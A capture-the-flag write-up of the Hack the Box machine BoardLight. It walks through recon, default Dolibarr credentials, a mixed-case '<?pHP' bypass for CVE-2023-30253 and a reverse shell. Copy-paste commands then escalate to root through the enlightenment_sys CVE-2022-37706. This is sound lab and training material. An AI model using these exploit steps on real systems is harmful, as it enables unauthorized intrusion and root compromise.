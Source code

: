 ```yaml
---
title: "Hack the Box: BoardLight - Writeup" 
published: 2024-09-28
description: "Writeup of machine 'BoardLight' from HTB"
image: 'BoardLight.png'
tags: [CTF, HTB, SUID, Dolibarr, DB Creds, Enlightenment, OSCP]
category: 'CTF writeup'
draft: false
---
```


# Overview

- Machine: BoardLight
- OS: Linux
- Difficulty: Easy

# Reconnaissance

## Port Scan

The first thing I did was run _nmap_ to discover the **open ports** on the target machine:
```bash {3,5}
nmap -p- -sV -sC -oA nmap/nmap -v 10.10.11.11
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
[...]
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```
 
## Virtual host

Accessing the page running on port 80, we see that probably is a **static website** as demonstrated on _Figure 1_. At the bottom of the page, I see the DNS **board.htb**, as shown in _Figure 2_.

![BoardLight Homepage](homepage_board.png "Figure 1: Homepage of '10.10.11.11'.")

![board.htb](./board_htb.png "Figure 2: Discovery the DNS 'board.htb'.")

:::note
As always, I added 'board.htb' to the _/etc/hosts_ file.
:::

Accessing the the page '_board.htb_' returns an identical static site, so I started **brute forcing** with _ffuf_ to see if it has any **virtual host** with the following command:
```bash "crm"
ffuf -w /seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://10.10.11.11/' -H 'Host: FUZZ.board.htb' -fs 15949
[...]
crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 192ms]
```
:::note
I had to use the option '_-fs 15949_' to filter results by size because if the Vhost is not valid, the server will just return the static website.
:::

It was discovered that the VHOST '_crm.board.htb_' returns a different page, and accesing it, we can see the **_Dolibarr_ login page** as shown in _Figure 3_.

![Dolibarr](./dolibarr.png "Figure 3: Dolibarr version '17.0.0'.")

Searching on google we discover that the **default credentials** for Dolibarr are _admin:admin_. Trying that, and we are in! But once inside, it seems like we have limited permissions, and most of the features give us access denied, as see in _Figure 4_. 

![Dolibarr Access denied](./dolibar_access_denied.png "Figure 4: Dolibarr admin with limited permissions." )

# Exploitation

Searching for this Dolibarr version, we find that it is vulnerable to [CVE-2023-30253](https://www.swascan.com/security-advisory-dolibarr-17-0-0/). The CVE allows **executing PHP code** by bypassing an application restriction.

### How the vulnerablility works

1. First, if we don't have one, we need to create a website and a new page. 
2. Now with the page created, we click the "Edit HTML Source".
3. 1. On this page, if we try to insert PHP code with the tag **<?php ...?>**, it give us the following permission error. 
![Permission to add or edit PHP](./denied_php_tag.png "Figure 5: Permission to write PHP code denied.")
3. 2. But if we change the PHP tag to **<?pHP ?>**, it saves the page and executes the PHP code. 
![Success save](./dolibarr_success_save.png "Figure 6: Successfully saved the page and executed the PHP code.")
4. Now, we just need to send a reverse shell. I modified the [PHP reverse shell from PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell) to working with this CVE and waited for my connetion back.

# Privilege escalation

When I got the shell as **www-data user**, I upgraded it to a **TTY** one with _script_ and _stty_:
```bash
script -c /bin/bash -q /dev/null
<CTRL>z
stty raw -echo;fg 
```
## User flag

I got a shell as _'www-data'_, and while enumerating the open ports with `ss -ltnp`, I discovery that port **3306**(MySql) is open, so I immediately started looking for its **password** in the **Dolibarr configurate** files.

Going to dolibarr folder, I used the following _grep_ command to find out where the configurates are: </br>
`grep -ri 'db_name' | grep -v 'jquery'`

![Results of grep command](./grep_results.png "Figure 7: Return of _grep_ command.")

It returned a lot of files, but the one that caught my attention was `/htdocs/conf/conf.php`.Opening the file and scrolling up, we find the **credentials** of the database, as demostrated at Figure 8.

![db](./db_pass.png "Figure 8: Database credentials.")
:::warning
Remember to keep it simple. The first time on the machine, I spend some time going down the rabbit hole of getting the hashes from the database and trying to crack them. Remember to go for easy wins first.
:::

Now with that password, we can just run `su - larrisa` and paste the password we just got, and we will have the user flag in `/home/larrisa/user.txt`. 

## Root flag

After manually enumerating for some time, I found some **SUID binaries** with the following _find_ command:</br>
`find / -perm -u=s -type f 2>/dev/null`
![Results find](./result_find.png "Figure 9: Return of the _find_ command")

Researching this binary, I found out that the version of **enlightenment** installed is vulnerable to **Privilege Escalation** with _CVE-2022-37706_.

### Steps to reproduce
1. Create two directories that confuse the logic of the binary:</br>
```bash title="Creating Directories"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit
```
2. Create the file that the binary will execute on a **system()** call:
```bash title=""
echo '/bin/sh' > /tmp/exploit
chmod a+x /tmp/exploit
```
3. Run the following command to get a root shell:
`/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net`

:::note
Can check more details about the vulnerability on the following GitHub.
::github{repo="MaherAzzouzi/CVE-2022-37706-LPE-exploit"}
:::

And with that we can get the **root flag** in `/root/root.txt`.

:::important[YouTube]
If you got lost at some point, I have a full Walkthough on YouTube:
<iframe width="560" height="315" src="https://www.youtube.com/embed/GxeAiKjv2A4?si=1v_dYdZluasosMmz" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>
:::
